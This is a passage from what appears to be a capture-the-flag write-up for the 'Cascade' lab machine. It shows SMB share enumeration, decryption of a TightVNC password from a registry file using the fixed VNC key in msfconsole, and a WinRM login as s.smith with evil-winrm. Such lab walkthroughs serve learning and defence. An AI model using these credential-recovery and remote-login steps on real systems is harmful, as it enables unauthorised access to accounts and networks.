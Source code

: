 ```
Using workgroup WORKGROUP, user r.thompson
smb://cascade.htb/Data/IT/Email Archives/Meeting_Notes_June_2018.html                                   
smb://cascade.htb/Data/IT/Logs/Ark AD Recycle Bin/ArkAdRecycleBin.log                                   
smb://cascade.htb/Data/IT/Logs/DCs/dcdiag.log                                                           
smb://cascade.htb/Data/IT/Temp/s.smith/VNC Install.reg                                                  
Downloaded 12.18kB in 28 seconds
```
Take a look at all them, and see that the `VNC Install.reg` files is the most interesting...
```
$ cat VNC\ Install.reg 
��Windows Registry Editor Version 5.00

[HKEY_LOCAL_MACHINE\SOFTWARE\TightVNC]

[HKEY_LOCAL_MACHINE\SOFTWARE\TightVNC\Server]
"ExtraPorts"=""
"QueryTimeout"=dword:0000001e
"QueryAcceptOnTimeout"=dword:00000000
[...]
"Password"=hex:6b,cf,2a,4b,6e,5a,ca,0f
[...]
"VideoClasses"=""
"VideoRects"=""
```
See it?? We got ourselves a password encrypted in hexademical form. We can refer to [this guide on VNC password encryption](https://github.com/frizb/PasswordDecrypts) to decrypt the password:
```
$ msfconsole
msf5 > irb
[*] Starting IRB shell...                                                                               
[*] You are in the "framework" object
>> fixedkey = "\x17\x52\x6b\x06\x23\x4e\x58\x07"
=> "\u0017Rk\u0006#NX\a"
>> require 'rex/proto/rfb'
=> true
>> Rex::Proto::RFB::Cipher.decrypt ["6bcf2a4b6e5aca0f"].pack('H*'), fixedkey
=> "sT333ve2"
```
Recall that the `VNC Install.reg` file was in the `IT/Temp/s.smith` folder, so it probably belongs to `s.smith`, which would imply that we've got `s.smith`'s password :)

### Shell as s.smith
Check `enum4linux` output for `s.smith` and see that `s.smith` belongs to the `Remote Management Users` group:
```
$ cat initial.txt | grep s.smith
index: 0xebd RID: 0x453 acb: 0x00000210 Account: s.smith        Name: Steve Smith       Desc: (null)
user:[s.smith] rid:[0x453]
Group 'IT' (RID: 1113) has member: CASCADE\s.smith
Group 'Remote Management Users' (RID: 1126) has member: CASCADE\s.smith
Group 'Audit Share' (RID: 1137) has member: CASCADE\s.smith
Group 'Domain Users' (RID: 513) has member: CASCADE\s.smith
```
Which means we can probably login via WinRM as `s.smith`...
```
$ evil-winrm -i cascade.htb -u s.smith -p sT333ve2

Evil-WinRM shell v2.3
```